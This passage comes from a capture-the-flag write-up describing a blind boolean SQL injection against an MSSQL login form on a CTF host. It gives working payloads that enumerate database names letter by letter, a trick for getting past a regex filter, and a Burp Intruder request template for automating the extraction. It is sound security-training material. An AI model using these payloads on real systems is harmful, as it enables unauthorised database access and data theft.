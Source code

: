 Here is some explanation regarding our SQL request:

* `SELECT'm'` : This syntax is authorized by MSSQL and allows us to use the `SELECT` keyword. This will add an arbitrary `m` letter to every result.  
  * You are free to use another letter obviously
* `%2` : You have to encode the `+` to avoid errors
* `SUBSTRING((CAST((SELECT'm'%2name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m'` : This part is checking if the first letter of the first database is `m`
* `AND 'uNDi'='uNDi` : This is part of the initial SQL injection identified by `sqlmap`

To confirm that this request is working we did the following `POST` requests:

On this case we tested if the first letter was `m`, which is always true since we add an arbitrary `m` at the beginning:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'+name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='m' AND 'uNDi'='uNDi&passwd=admin
```

We got the following answer, letting us that the username (`admin`) is the good one, confirming that our request worked:

```html
<div class="alert">Invalid credentials.</div><br>  <div class="form-input">
```

Here, we tested if the first letter was `a`, which is false:

```sql
username=admin' AND SUBSTRING((CAST((SELECT'm'+name FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),1,1)='a' AND 'uNDi'='uNDi&passwd=admin
```

We got the following answer, letting us now that the username (`admin`) is not the good one, confirming that our request worked:

```html
<div class="alert">Invalid username.</div><br>  <div class="form-input">
```

### Let's automate

Now that we are able to request the first letter of the database bypassing the regex, we choose to automate the process using the `Burp Intruder`.

#### Databases

The first step is to find the name of the databases. At this point, we had to iterate through two points, the index letter we are trying to find, represented by `§1§`, and the letter we are testing, represented by `§m§`:

```powershell
POST / HTTP/1.1
Host: photographic-memory.ctf
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 191
Origin: http://photographic-memory.ctf
Connection: close
Referer: http://photographic-memory.ctf/
Cookie: PHPSESSID=k2ip0nk80scvaubpv8u7a54bjg
Upgrade-Insecure-Requests: 1

username=admin' AND SUBSTRING((CAST((SELECT'm'%2bname FROM master..sysdatabases ORDER BY name OFFSET 0 ROWS FETCH FIRST 1 ROWS ONLY) AS NVARCHAR(4000))),§1§,1)='§m§' AND 'uNDi'='uNDi&passwd=admin
```
